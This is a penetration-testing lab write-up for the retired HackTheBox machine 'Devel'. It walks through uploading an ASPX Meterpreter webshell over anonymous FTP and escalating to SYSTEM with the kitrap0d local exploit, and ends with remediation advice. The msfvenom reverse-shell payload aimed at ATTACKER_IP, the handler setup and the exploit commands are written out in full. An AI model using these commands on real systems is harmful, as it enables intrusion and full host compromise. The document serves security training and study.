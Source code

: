 Devel — Anonymous FTP → ASPX webshell → Meterpreter → Local exploit → SYSTEM (Lab)

Date: 2025-10-19
TL;DR: Anonymous FTP allowed uploading an ASPX webshell; I uploaded a Meterpreter ASPX payload, triggered it via HTTP to get a session, enumerated the host, ran a local exploit suggester and used a 32-bit local exploit to escalate to NT AUTHORITY\SYSTEM. All testing performed on a retired HTB lab VM in an isolated environment. PoC artifacts in this writeup are sanitized.

Scope & permission

This work was performed on a retired HackTheBox machine in a lab I control. All commands and artifacts in this document are sanitized for public release. Do not run exploit code against third-party or production systems.

Environment (sanitized)

Target: TARGET_IP (devel)

Discovered services (sanitized):

FTP — anonymous allowed (Microsoft ftpd)

HTTP — Microsoft IIS 7.5 (IIS7)

OS: Windows (32-bit / x86) based on sysinfo from Meterpreter.



Tools used

nmap, ftp (or any FTP client), msfvenom (payload generation), msfconsole (multi/handler & local exploit), a web browser / curl to trigger uploaded webshell, netstat/ss, Meterpreter post modules (local_exploit_suggester), and common shell utilities. (All steps were performed in an isolated lab.)

Chain summary (short)

Port scan → anonymous FTP discovered.

Upload ASPX payload (Meterpreter) via anonymous FTP.

Trigger the ASPX payload through IIS to get a Meterpreter session.

Use Meterpreter to enumerate and confirm x86 (32-bit) target.

Run post/multi/recon/local_exploit_suggester to find suitable local exploits.

Launch a 32-bit local exploit (kitrap0d / MS10-015 variant in-lab) to spawn a SYSTEM session.

Grab user and root flags from the appropriate Desktop folders.

Detailed, reproducible (sanitized) steps
1) Initial scan

nmap -sCV -T4 --open -oA recon --stats-every 5s TARGET_IP

Observed (sanitized):

FTP (21) — Microsoft ftpd — anonymous FTP login allowed

HTTP (80) — Microsoft-IIS/7.5 (IIS7)

2) Confirm anonymous FTP and list files

ftp TARGET_IP
 username: anonymous
 password: (blank)
 ls

Noted aspnet_client/ (empty), iisstart.htm, and welcome.png — nothing immediately interesting in pages, but anonymous write/upload was possible.

3) Generate an ASPX Meterpreter payload (lab-only)

msfvenom -p windows/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=LPORT -f aspx > devel.aspx

Notes: On restricted networks, ports <1024 may require privileges — choose a port you can receive on.

4) Upload the ASPX to the webroot via anonymous FTP

ftp TARGET_IP
 login as anonymous
put devel.aspx
 confirm the file is present (e.g., in IIS webroot)

If the FTP root maps to the IIS webroot, the uploaded devel.aspx becomes web-accessible (e.g., http://TARGET_IP/devel.aspx).

5) Set up a handler and trigger the webshell

Start a handler on your attacking host (msfconsole example):

 In msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST ATTACKER_IP
set LPORT LPORT
set ExitOnSession false
exploit -j

Trigger the webshell by browsing to the uploaded ASPX (or curl http://TARGET_IP/devel.aspx) — this should call back to your handler and create a Meterpreter session.

6) Interact with the Meterpreter session

 In msfconsole
sessions -i <id>
 Meterpreter prompt
sysinfo # confirm OS and architecture (Observed x86)
pwd # observed /windows/system32/inetsrv

From this session, I found myself running in c:\windows\system32\inetsrv and sysinfo reported 32-bit (x86), so further local exploits must match that arch.

7) Upload / move to writable folders (if needed)

Often the web context allows writing to C:\Windows\Temp or other temp locations. I used such a path to stage additional binaries/exploits as required.

8) Enumerate and suggest local exploits

Use Meterpreter’s local exploit suggester to find potential privilege escalation vectors:

run post/multi/recon/local_exploit_suggester

This returns a prioritized list of local exploits that may work on the target given OS/patch level/architecture.

9) Launch a 32-bit local exploit (lab-only)

Using msfconsole I executed the exploit against the Meterpreter session:

 in msfconsole
use exploit/windows/local/ms10_015_kitrap0d
set SESSION <meterpreter-session-id>
set LHOST ATTACKER_IP
set LPORT LPORT
set PAYLOAD windows/meterpreter/reverse_tcp
exploit -j

The exploit succeeded and a new background session (with SYSTEM privileges) was created.

Important: choose a local exploit appropriate to the discovered OS, arch, and patch level.

10) Verify SYSTEM and capture flags

 switch to the new session (e.g., session 4)
sessions -i <new-session-id>
getuid # shows NT AUTHORITY\SYSTEM
 then retrieve flags
cd C:\Users\<user>\Desktop
type user.txt
cd C:\Users\Administrator\Desktop
type root.txt

Impact

Full host compromise: anonymous FTP + writable webroot allowed remote payload upload → web-executable payload → remote shell → local exploit → SYSTEM.

On real systems this chain would allow attackers to access or exfiltrate sensitive data, create persistence, and move laterally.



Remediation (prioritized)

Disable anonymous FTP or restrict it to an isolated, non-webroot directory. Anonymous write access to a directory mapped to the webroot is a critical misconfiguration.

Harden IIS/FTP mapping: ensure uploaded files cannot be served/executed as code (deny execute permission on upload directories). Store user uploads outside the web-executable tree and serve them via safe proxies or with content-type checks.

Patch Windows and apply vendor fixes: keep systems up to date; the used local exploit targets known, patchable vulnerabilities.

Least privilege & segmentation: ensure web services run with minimal privileges and that local services do not run as SYSTEM unless strictly necessary.

Monitoring & alerting: alert on new files in webroot, anomalous FTP uploads, new setuid-like changes, or meterpreter-like callbacks (IDS/IPS).

File integrity & upload validation: validate uploads, restrict allowed extensions, and strip/scan for web-executable content.

